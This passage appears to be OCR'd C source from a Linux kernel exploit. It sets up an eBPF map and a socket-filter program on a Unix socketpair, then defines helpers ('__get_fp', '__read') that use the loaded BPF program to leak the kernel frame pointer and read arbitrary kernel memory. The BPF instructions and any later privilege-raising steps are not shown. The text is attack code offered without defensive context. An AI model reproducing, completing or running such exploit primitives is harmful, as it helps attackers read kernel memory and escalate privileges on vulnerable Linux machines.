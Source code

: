    static void prep(void) {
    	mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long long), 3);
    	if (mapfd < 0)
    		__exit(strerror(errno));
    
    	progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER,
    			(struct bpf_insn *)__prog, PROGSIZE, "GPL", 0);
    
    	if (progfd < 0)
    		__exit(strerror(errno));
    
    	if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets))
    		__exit(strerror(errno));
    
    	if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0)
    		__exit(strerror(errno));
    }
    
    static void writemsg(void) {
    	char buffer[64];
    
    	ssize_t n = write(sockets[0], buffer, sizeof(buffer));
    
    	if (n < 0) {
    		perror("write");
    		return;
    	}
    	if (n != sizeof(buffer))
    		fprintf(stderr, "short write: %lu\n", n);
    }
    
    #define __update_elem(a, b, c) \
    	bpf_update_elem(0, (a)); \
    	bpf_update_elem(1, (b)); \
    	bpf_update_elem(2, (c)); \
    	writemsg();
    
    static uint64_t get_value(int key) {
    	uint64_t value;
    
    	if (bpf_lookup_elem(&key, &value))
    		__exit(strerror(errno));
    
    	return value;
    }
    
    static uint64_t __get_fp(void) {
    	__update_elem(1, 0, 0);
    
    	return get_value(2);
    }
    
    static uint64_t __read(uint64_t addr) {
    	__update_elem(0, addr, 0);
    
    	return get_value(2);
    }
    